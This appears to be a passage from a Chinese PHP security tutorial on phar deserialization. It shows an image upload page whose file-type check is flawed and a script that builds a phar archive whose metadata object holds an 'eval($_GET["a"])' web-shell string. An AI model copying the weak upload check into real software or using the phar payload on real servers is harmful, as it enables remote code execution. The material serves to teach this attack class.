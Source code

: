 ```php
?>

# 文件上传页（upload.php）
<!DOCTYPE html>
<head>
    <meta charset="UTF-8"> 
    <title>上传图片文件</title>
</head>
<body>
<form action="" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
        <input type="file" name="file" id="file">
        <input type="submit" name="submit" id="上传">
</form>
</body>
</html>
<?php
error_reporting(0);
$allowedExs=array("gif","jpeg","jpg","png");
$temp=explode(".",$_FILES["file"]["name"]);
$extension=end($temp);
if (($_FILES["file"]["type"])=="image/gif"
    ||($_FILES["file"]["type"])=="image/jpeg"
    ||($_FILES["file"]["type"])=="image/jpg"
    ||($_FILES["file"]["type"])=="image/pjpeg"
    ||($_FILES["file"]["type"])=="image/x-png"
    ||($_FILES["file"]["type"])=="image/png"
    &&($_FILES["file"]["size"])<204800
    &&in_array($extension,$allowedExs)){
    if($_FILES["file"]["error"]>0){
        echo "错误：".$_FILES["file"]["error"]."<br/>";
    }
    else{
        move_uploaded_file($_FILES["file"]["tmp_name"],"upload/".$_FILES["file"]["name"]);
        echo "文件储存在"."upload/".$_FILES["file"]["name"];
        }
    }
else{
    echo "mybe hack?";
}
```

### Phar包构造源码

```php
# 这里只需要成功实例化 TestObject类 即可
<?php
//highlight_file(__FILE__);
class TestObject {
}

@unlink('test.phar');   //删除之前的test.par文件(如果有)
$phar=new Phar('test.phar');  //创建一个phar对象，文件名必须以phar为后缀
$phar->startBuffering();  //开始写文件
$phar->setStub('<?php __HALT_COMPILER(); ?>');  //写入stub
$o=new TestObject();
$o->output='eval($_GET["a"]);';
$phar->setMetadata($o);//写入meta-data
$phar->addFromString("test.txt","test");  //添加要压缩的文件
$phar->stopBuffering();
?>
```

